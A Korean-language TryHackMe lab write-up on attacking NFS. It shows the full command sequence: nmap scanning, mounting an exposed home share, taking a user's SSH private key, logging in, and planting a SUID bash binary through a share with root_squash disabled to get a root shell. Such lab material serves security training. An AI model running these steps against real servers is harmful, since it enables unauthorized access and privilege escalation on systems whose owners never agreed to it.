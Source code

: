 # TryHackMe - Network Services 2 (NFS)

> 본 실습은 TryHackMe 플랫폼의 Network Services 2 실습 중 NFS(Network File System)를 대상으로 하여 정보 수집, 취약점 분석, SSH 접근, 권한 상승 과정을 수행한 결과입니다.

---

## 1. 실습 개요

- **타깃 머신 IP**: `10.10.155.201`
- **공격 머신 환경**: Kali Linux 2023.4
- **실습 일자**: 2025-04-15
- **사용 도구**:
  - `nmap`: 포트 및 서비스 정보 수집
  - `showmount`: NFS 공유 디렉토리 확인
  - `mount`: NFS 공유 디렉토리 마운트
  - `chmod`: 파일 권한 설정
  - `wget`: bash 바이너리 다운로드
  - `ssh`: 시스템 로그인 및 루트 권한 획득

---

## 2. 정보 수집

### 2.1 nmap 포트 스캔

```bash
nmap -A -vv -T4 -p- 10.10.155.201 -oN nmap_scan.txt
```

- 결과 요약:

| 포트 | 서비스 | 설명 |
|------|--------|------|
| 22/tcp | ssh | SSH 서비스 (OpenSSH 7.6p1) |
| 111/tcp | rpcbind | RPC 서비스 |
| 2049/tcp | nfs_acl | NFS 파일 공유 서비스 |
| 43623/tcp, 60307/tcp, 60371/tcp | mountd | NFS 마운트 관련 데몬 |
| 45449/tcp | nlockmgr | 파일 잠금 서비스 |

- 상세 스캔 결과: [nmap_scan.txt](./nmap_scan.txt) 파일 참조

![nmap 포트 스캔 grep 결과](./screenshots/nmap_scan_grep.png)

---

## 3. 실습 과정

### 3.1 NFS 공유 디렉토리 마운트

- 설명: NFS 공유 디렉토리를 로컬 시스템의 /tmp/mount 경로에 마운트하여 내부 파일을 열람할 수 있도록 했습니다. -nolock은 잠금 기능을 비활성화하여 호환성을 높입니다.
```bash
mkdir /tmp/mount
mount -t nfs 10.10.155.201:/home /tmp/mount -nolock
```

![NFS 디렉토리 마운트](./screenshots/mount_shared_directory.png)

---

### 3.2 NFS 공유 디렉토리에서 SSH 개인 키 획득

- 공유 디렉토리 내 `/home/cappucino/.ssh/id_rsa` 발견

- 개인 키 내용: [id_rsa.txt](./id_rsa.txt) 파일 참조

![SSH 개인 키 파일 발견](./screenshots/found_ssh_key.png)

---

### 3.3 SSH 접속

- 설명: 마운트된 NFS 디렉토리에서 획득한 개인 키(id_rsa)를 이용해 타깃 머신에 SSH로 접속하였습니다. chmod 600은 키 파일 권한을 설정해 SSH 클라이언트에서 거부되지 않도록 합니다.
```bash
chmod 600 id_rsa
ssh -i id_rsa cappucino@10.10.155.201
```

![SSH 로그인 성공](./screenshots/ssh_login_success.png)

---

### 3.4 Kali 터미널에서 루트 쉘을 위한 바이너리 준비

- 설명: 타겟 머신과 동일한 환경에서 동작하는 bash 바이너리를 다운로드하여 업로드할 준비를 했습니다. 이후 SUID 권한을 부여하여 루트 쉘을 획득하기 위한 전처리 단계입니다.
```bash
wget https://raw.githubusercontent.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```

![bash 바이너리 다운로드](./screenshots/download_bash_binary.png)

---

### 3.5 공유 디렉토리에 bash 복사 후 SUID 권한 부여

- 설명: 공유된 디렉토리에 bash 파일을 복사한 뒤, chmod +x로 실행 권한을 준 후, chmod +s로 SUID 비트를 설정하여 해당 파일을 실행할 때 소유자(root)의 권한으로 실행되도록 구성했습니다.
```bash
cp bash /tmp/mount/bash
cd /tmp/mount
chmod +s bash
chmod +x bash
```

![SUID bash 설정](./screenshots/set_suid_bash.png)

---

### 3.6 SSH 쉘에서 bash 실행 → 루트 권한 획득

- 설명: SUID가 설정된 bash 바이너리를 실행하면서 -p 옵션을 주어 현재 파일 소유자의 권한(root)으로 쉘을 실행했습니다. 이를 통해 루트 권한 획득에 성공했습니다.
```bash
cd /home
./bash -p
```

- 획득한 플래그: THM{nfs_got_pwned}

![bash 실행 및 루트 획득](./screenshots/execute_suid_bash.png)

---

## 4. 배운 점

- NFS 서비스는 잘못 설정될 경우, 외부 사용자에게 심각한 권한을 부여할 수 있다.
- `root_squash` 설정이 비활성화된 경우, 업로드한 파일에 root 권한을 부여할 수 있다.
- NFS 공유된 디렉토리 접근을 통해 `ssh` 키를 획득 후 타겟 사용자로 로그인할 수 있다.
- SUID 비트가 설정된 bash 파일을 실행하여 root 권한 획득이 가능하다.



